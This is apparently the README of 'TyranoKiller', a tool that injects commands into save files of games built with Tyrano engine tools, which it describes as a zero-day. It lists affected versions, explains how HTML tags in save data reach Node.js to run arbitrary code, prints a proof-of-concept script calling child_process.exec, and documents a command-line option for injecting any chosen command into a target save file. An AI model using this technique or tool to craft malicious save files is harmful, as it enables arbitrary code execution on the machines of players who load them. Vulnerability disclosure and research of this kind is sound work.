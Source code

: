 # TyranoKiller
Code injection tool for Tyrano.  
![main.png](images/main.png)  
CVE-XXXX-XXXX (0day)  

## Vulnerability
All games created with the tools listed below have a vulnerability in the save data file.  
- TyranoBuilder <= 1.87b  
- TyranoBuilderV5 <= 2.00_alpha2  
- TyranoRider <= 2.20  
- TyranoStudio <= 1.10c  
- (TyranoScript <= 4.88)  
- (TyranoScriptV5 <= 5.06e)  

Attackers can use Node.js functionality from JavaScript by embedding HTML tags in save data files, allowing them to execute arbitrary code.
They can also do that using the game development data `index.html`.
These are not included in the tool, but by previewing the game with the following code embedded, it will be XSS to ACE.  
```html
<script>
require("child_process").exec("calc");
</script>
```
Don't use untrusted files.  
  
![calc.gif](images/calc.gif)  

## Usage
```bash
usage: tyranokiller.py [-h] [-c COMMAND] filename

positional arguments:
  filename              Specify the target sav file name

optional arguments:
  -h, --help            show this help message and exit
  -c COMMAND, --command COMMAND
                        Specify the command to be injected
```
The default is to execute the `calc` command.  